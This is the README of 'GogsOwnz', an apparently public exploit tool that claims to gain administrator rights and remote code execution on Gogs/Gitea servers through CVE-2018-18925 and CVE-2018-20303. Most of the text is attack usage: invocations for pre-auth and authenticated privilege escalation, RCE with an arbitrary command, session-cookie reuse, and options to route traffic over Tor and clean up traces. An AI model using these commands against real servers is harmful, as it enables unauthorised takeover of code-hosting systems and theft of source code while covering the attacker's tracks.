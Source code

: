 # GogsOwnz

GogsOwnz is a simple script to gain administrator rights and RCE on a Gogs/Gitea server.  
Exploit vulnerabilities in Gogs/Gitea, including **CVE-2018-18925**, **CVE-2018-20303**.

**Legal Disclaimer**
This script is offered as is. No warranty, use on your own, please obey the law.

### Typical Usage - [Please, read the full usage]

Get info about Gogs/Gitea running

    python3 gogsownz.py https://127.0.0.1:3000/ -v --info

Exploit preauth PrivEsc

    python3 gogsownz.py https://127.0.0.1:3000/ -v --preauth

Exploit PrivEsc

    python3 gogsownz.py https://127.0.0.1:3000/ -v -C '<user>:<password>' --cleanup
    
  _or alternatively_

    python3 gogsownz.py https://127.0.0.1:3000/ -v -c '<i_like_gogs_cookie>' --cleanup

Exploit preauth RCE

    python3 gogsownz.py https://127.0.0.1:3000/ -v --preauth --rce 'sleep 10' --cleanup

Exploit auth RCE

    python3 gogsownz.py https://127.0.0.1:3000/ -v -C '<user>:<password>' --rce 'sleep 10' --cleanup


Full usage
```
usage: gogsownz [-h] [-C CREDS] [-n COOKIENAME] [-c COOKIE] [-i] [--rce RCE]
                [--repo REPO] [--preauth] [--windows] [--cleanup] [--tor]
                [--check-tor] [--burp] [-k] [--verbose]
                url

positional arguments:
  url                   URL for the Gogs server

optional arguments:
  -h, --help            show this help message and exit
  -C CREDS, --creds CREDS
                        Credentials for the Gogs server, in the from
                        "username:password"
  -n COOKIENAME, --cookie-name COOKIENAME
                        Name of the Gogs-specific session cookie
  -c COOKIE, --cookie COOKIE
                        Session for the Gogs server, the value in the
                        i_like_gogits Cookie
  -i, --info            Only detect informations about the running Gogs
                        server, then quit
  --rce RCE             Command to execute on the Gogs server
  --repo REPO           Use an existing repo for the PrivEsc
  --preauth             Try the pre-auth vulnerability
  --windows             Gogs server runs on Windows
  --cleanup             Remove all created repo after exploit
  --tor                 Use tor proxy when performing requests
  --check-tor           Check that Tor is correctly set up before running
  --burp                Use burp proxy when performing requests
  -k, --insecure        Allow insecure server connections when using SSL
  --verbose, -v

```

### Thanks

Thanks to:
- Tencent Security (@md5_salt, @ma7h1as and @chromium1337)
- PentesterLab (@snyff)
- LuckyC4t
- the gogs security community :D

### Further readings

https://github.com/gogs/gogs/issues/5469  
https://github.com/gogs/gogs/issues/5558  
https://github.com/gogs/gogs/commit/8c8c37a66b4cef6fc8a995ab1b4fd6e530c49c51  
https://github.com/gogs/gogs/issues/5599  
https://2018.zeronights.ru/wp-content/uploads/materials/17-Who-owned-your-code.pdf